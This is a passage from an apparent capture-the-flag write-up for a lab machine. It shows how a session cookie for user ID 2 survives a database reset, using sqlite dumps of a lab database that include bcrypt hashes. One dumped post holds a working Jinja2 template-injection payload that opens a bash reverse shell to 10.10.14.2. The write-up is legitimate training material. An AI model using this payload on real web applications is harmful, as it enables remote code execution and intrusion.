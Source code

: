 So if I can keep a valid cookie across box resets (or database clears), I can become another user. This seems unlikely to come up on a real world system, but will come up all time time on CTFs like HTB.

#### Database Frozen State

I exfiled a copy of `site.db` from the working site directory just after a reset. In this database, there are two users:

```

root@kali# sqlite3 site.db 
SQLite version 3.33.0 2020-08-14 13:23:32
Enter ".help" for usage hints.
sqlite> select * from user;
1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
2|shaun|s@s.com|default.gif|$2b$12$wW0SocwtbEImnxgWoHJPMOzbTKs1qYCeE5Q0KnBtCXqD7NzuDne4y

```

There’s also the exploit post associated with userid 2:

```

sqlite> select * from post;
1|Doctor blog|2020-09-18 20:48:37.55555|A free blog to share medical knowledge. Be kind!|1
2|{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'").read()}}{%endif%}{%endfor%}|2020-09-28 13:01:21.252038|dsdsdsa|2

```

I grabbed a copy of the “clean” database from `/opt/clean`, and it only showed one user:

```

sqlite> select * from user;
1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S

```

And only one post:

```

sqlite> select * from post;
1|Doctor blog|2020-09-18 20:48:37.55555|A free blog to share medical knowledge. Be kind!|1

```

#### Putting It All Together

Once I wait until the cleanup job runs, the user with user ID 2 is now available. If I register this user, I’ll get a signed cookie with this user id 2. Now if I reset the box, on reset, there’s already a user with user ID 2 - shaun. When I reach that page with that cookie, I am already logged in as shaun.
